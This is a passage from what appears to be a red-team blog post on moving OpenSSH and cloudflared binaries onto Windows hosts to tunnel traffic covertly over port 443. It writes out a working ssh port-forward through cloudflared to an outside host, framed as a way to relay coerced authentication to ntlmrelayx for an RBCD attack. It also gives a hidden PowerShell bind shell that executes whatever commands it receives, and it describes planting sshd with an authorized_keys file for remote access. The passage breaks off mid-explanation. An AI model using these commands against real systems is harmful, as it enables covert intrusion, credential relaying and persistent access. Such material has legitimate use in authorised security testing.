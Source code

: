 I learned that bringing the trusted ssh binary to a system is quite easy so if you go to [OpenSSH on Github](https://github.com/powershell/Win32-OpenSSH) you can bring the ssh binary to a system and it works quite well. All you have to ensure is to also put the libcrypto.dll into the same folder as the ssh.exe binary to make it operational.

Another thing I found quite useful when investigating trusted binaries is that using both the cloudflared and ssh binaries they could be easily used to forward ports. If for example you wanted to coerce a webclient to your host on port 8888 then forward it back to port 80 on Kali where ntlmrelayx is listening to perform a RBCD style attack. This is all done over port 443 too for added OPSEC. This can be achieved with the following command: 

{% highlight powershell %}
ssh.exe -o ProxyCommand="cloudflared.exe access ssh --hostname %h" david@ssh.redteaming.org -L 0.0.0.0:8888:localhost:80
{% endhighlight %}

When you have your tunnel up and running it is also good to know that you can easily achieve command line access over the tunnel with either a PowerShell bindshell running on localhost or bringing another trusted binary such as sshd to a system. 

{% highlight powershell %}
Start-Process -WindowStyle Hidden -FilePath powershell -ArgumentList "-NoProfile -Command & {`$listener=[System.Net.Sockets.TcpListener]::new([System.Net.IPAddress]::Loopback,9000); `$listener.Start(); `$client=`$listener.AcceptTcpClient(); `$stream=`$client.GetStream(); `$reader=[System.IO.StreamReader]::new(`$stream); `$writer=[System.IO.StreamWriter]::new(`$stream); `$writer.AutoFlush=`$true; while (`$client.Connected) { `$writer.Write('PS ' + (Get-Location).Path + '> '); `$command=`$reader.ReadLine(); if (`$command -eq 'exit') { break }; try { `$output=Invoke-Expression `$command 2>&1 | Out-String; `$writer.WriteLine(`$output) } catch { `$writer.WriteLine('Error: `$_.Exception.Message') } }; `$listener.Stop(); `$client.Close() }"
{% endhighlight %}

Then when the bind listener is running you can connect to it via proxychains:

<img src="/assets/img/BSides9.jpg" width="200"/>

For sshd access you can go back to your OpenSSH zip that you downloaded but also move the sshd binary to the remote system as well as an authorized_keys file, host file and ssh_config file. You can then run the sshd server as follows to start it on port 7001 which I had defined in my sshd_config file:
